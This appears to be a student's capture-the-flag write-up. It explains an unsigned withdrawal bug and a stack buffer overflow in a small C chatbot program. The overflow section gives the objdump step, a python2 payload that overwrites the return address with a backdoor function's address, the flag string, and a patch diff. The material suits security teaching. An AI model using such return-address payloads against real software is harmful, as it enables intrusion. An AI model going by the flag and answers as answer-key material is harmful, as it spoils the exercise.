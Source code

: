### Explanation
This code is vulnerable because I attempted to withdraw $-1000000, but the system added the $1000000 into the balance despite it being an invalid input. The withdrawal variable was unsigned, so it would not count the negative. I changed the variable to a regular integer (signed), and I added an additional check to ensure that the withdrawal is greater than zero.

---

## problem2

### Flag
`flag{366-bUFF3r0v3RF10w_r3turn}`

### Exploit Steps
1. Notice that the char array has a size of 32 bytes. Typing 44 a's will cause a seg fault. 
2. Run `objdump -d problem2` and see that the backdoor function has an address of 08049280.
3. Type ./problem2 `python2 -c 'print "a"*44 + "\x80\x92\x04\x08"'` (the address is little-endian).

### Patch
```diff
--- .originals/problem2.c	2023-03-03 22:16:49.000000000 +0000
+++ problem2.c	2023-03-11 19:05:12.764207100 +0000
@@ -7,10 +7,7 @@
 // chatbots have to start somewhere...
 void parrot(char *input) {
   // Take the user input and run it through our chat algorithm
-  char out[32];
-
-  memset(out, 0, sizeof(out));
-  strcpy(out, input);
+  char* out = strdup(input);  
 
   // Copy the user's input and print it out.
   printf("user:   %s\n", input);
@@ -25,9 +22,9 @@
   }
 }
 
-void flag() {
-  printf("The flag goes here");
-}
+void flag() {
+  printf("The flag goes here");
+}
 
 // Too bad this function is never called...
 void backdoor() {

```
